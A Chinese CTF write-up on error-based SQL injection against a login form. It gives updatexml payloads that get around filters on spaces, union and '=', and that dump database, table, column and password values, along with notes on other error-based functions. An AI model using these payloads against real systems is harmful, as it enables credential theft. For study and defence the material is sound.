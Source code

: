 登录界面尝试注入，测试后发现是单引号字符型注入，且对union和空格进行了过滤，不能用到联合注入，但是有错误信息回显，说明可以使用报错注入。

```
username=admin'or(updatexml(1,concat('~',(select(database())),'~'),1))#&password=123
```

利用updatexml函数的报错原理进行注入在路径处利用concat函数拼接~和我们的注入语句

<img src="https://www.hualigs.cn/image/61153338b3112.jpg" alt="image-20210812161844858" style="zoom:80%;" />

发现xpath错误并执行sql语句将错误返回。

在进行爆表这一步发现了等号也被过滤，但是可以用到like代替等号。

```
username=admin'or(updatexml(1,concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),'~'),1))#&password=123
```

![image-20210812162950037](https://www.hualigs.cn/image/6115333609ca8.jpg)

爆字段

```
username=admin'or(updatexml(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),'~'),1))#&password=123
```

![image-20210812163124619](https://www.hualigs.cn/image/61153336b0409.jpg)

爆数据

```
username=admin'or(updatexml(1,concat('~',(select(password)from(H4rDsq1)),'~'),1))#&password=123
```

![image-20210812163343223](https://www.hualigs.cn/image/61153336444da.jpg)

这里就出现了问题flag是不完整的，因为updatexml能查询字符串的最大长度为32，所以这里要用到left函数和right函数进行读取

```
username=admin'or(updatexml(1,concat('~',(select(right(password,25)from(H4rDsq1)),'~'),1))#&password=123
```

![image-20210812163800151](https://www.hualigs.cn/image/611533367b0ae.jpg)

报错注入有很多函数可以用不止updatexml一种，以下三种也是常用函数：

```
extractvalue()：是mysql对xml文档数据进行查询的xpath函数
extractvalue (XML_document, XPath_string);用法与updatexml一致
floor():mysql中用来取整的函数，与group by函数并用
exp():此函数返回e(自然对数的底)指数X的幂值，当传递一个大于709的值时，函数exp()就会引起一个溢出错误
```

### 堆叠注入

堆叠注入就是多条语句一同执行。
